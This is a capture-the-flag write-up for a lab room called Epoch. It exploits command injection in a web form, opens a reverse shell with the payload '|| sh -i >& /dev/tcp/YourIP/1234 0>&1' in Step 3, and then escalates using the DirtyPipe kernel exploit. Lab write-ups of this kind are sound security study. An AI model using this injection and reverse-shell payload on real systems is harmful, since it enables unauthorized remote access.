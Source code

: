 <h1>writeup-Epoch</h1>
In this writeup, i will include all the steps i took to solve the room.
<img src="./img/logo.png" alt="logo" width="700">
<blockquote><h3>
    The room description suggests tha there is a vulnerable WebApplication and also asking us to check out another room related to <code>Command Injection</code>.
</h3></blockquote>

<ul>
    <li>
        <strong>Step 1 :</strong>
        <ul>
            Check out the WebApplication.<br>
            <img src="./img/webPage.png" alt="webPage"><br>
        </ul>
    </li><br>
    <li>
        <strong>Step 2 :</strong>
        <ul>
            Let's try Command Injection in the input field from <a href="https://book.hacktricks.xyz/pentesting-web/command-injection">hacktricks</a>.<br>
            <img src="./img/webPage2.png" alt="webPage2"><br>
            It works.
        </ul>
    </li><br>
    <li>
        <strong>Step 3 :</strong>
        <ul>
            Let's get a reverse shell by using this payload -> <code>|| sh -i >& /dev/tcp/YourIP/1234 0>&1</code>.<br>
            <img src="./img/shell.png" alt="shell"><br>
        </ul>
    </li><br>
    <li>
        <strong>Step 4 :</strong>
        <ul>
            Try to find user.txt or flag.txt using <code>find</code> command.<br>
            <Strong>FAILED!</Strong><br>
            Maybe the only flag we get is the root flag.
        </ul>
    </li><br>
    <h2>Get root</h2>
    <li>
        <strong>Step 5 :</strong>
        <ul>
            <code>sudo -l</code><br>
            <code>sh: 1: sudo: not found</code>
        </ul>
    </li><br>
    <li>
        <strong>Step 6 :</strong>
        <ul>
            <code>crontab</code><br>
            <code>cat: /etc/crontab: No such file or directory</code>
        </ul>
    </li><br>
    <li>
        <strong>Step 7 :</strong>
        <ul>
            <code>env</code><br>
            Found the flag.......<br>
            I might have left the room since i already have the flag but i want to see if i can get root.
        </ul>
    </li><br>
    <li>
        <strong>Step 8 :</strong>
        <ul>
            <code>find / -type f -perm -04000 2>/dev/null</code><br>
            Nothing intrest.
        </ul>
    </li><br>
    <li>
        <strong>Step 9 :</strong>
        <ul>
            <code>uname -a</code><br>
            Linux kernel version 5. <br>
            This might be vulnerable to <code>DirtyPipe</code> exploit.<br><br>
            <ol type="1">
                <u>It's a 3 step process to execute this exploit.</u>
                <li>
                    Download <a href="https://www.exploit-db.com/exploits/50808">DirtyPipe</a> exploit code on your local machine.
                </li>
                <li>
                    Start python server on your machine and download the exploit on target machine in <code>/tmp</code> directory.
                </li>
                <li>
                    Compile and execute the executable using <code>gcc</code>.
                </li><br>
                <img src="./img/root.png" alt="root">
            </ol>
        </ul>
    </li><br>
</ul>